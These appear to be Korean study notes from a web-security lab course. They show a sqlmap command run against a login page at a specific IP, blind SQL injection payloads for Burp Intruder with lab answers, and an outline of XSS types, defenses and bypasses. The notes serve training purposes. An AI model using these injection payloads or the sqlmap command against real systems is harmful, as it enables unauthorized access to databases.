## sqlmap with python

sqlmap.org에서 집파일 다운로드 후 풀기

sqlmap.py 옵션 보기(해당 디렉토리로 이동)

```powershell
python sqlmap.py --help
```

취약점 진단해보자

```powershell
python .\sqlmap.py -u http://1.234.183.130:8080/loginAction.jsp --data="id=1&passwd=YQ%3D%3D" p- id
```


취약점을 찾았다




---

## 16번

### ASP

버프스윗 인트루더

공격코드

asdfasdf@asdf.com'and+ascii(substring(user,1,1))+=+100+and+'a'='a



인트루더 공격, 답은 dbus




### JSP

얘는 substr로 해야함, 답은 SEC22

asdfasdf@asdf.com'and+ascii(substr(user,1,1))+=+100+and+'a'='a



### PHP

ascii 쓰지 말고 문자 자체를 찾는 방법으로 하면 됨

---


## 크로스 사이트 스크립팅 (XSS)

개요 : 다른 사용자를 공격하기 위한 기법




ex) 게시판에 글을 쓰고 악의 적인 스크립트 삽입 > 게시물 열람하면 사용자 브라우저에서 스크립트 실행됨



 ### Stored XSS

공격자가 악의적인 스크립트를 취약한 서버에 게시물 형태로 올려놓음

### Dom based XSS

서버와 상호작용 없이 브라우저에서 스크립트가 실행됨




### 사용자 입력 탈취(키로깅)


방버방법



우회방법



입출력값 검증



상황별 보안대책




---

## XSS실습

1번문제 정답, 이렇게 해도 되지만,



난 이부분을 버프스윗에서 찾아서 변경해줌







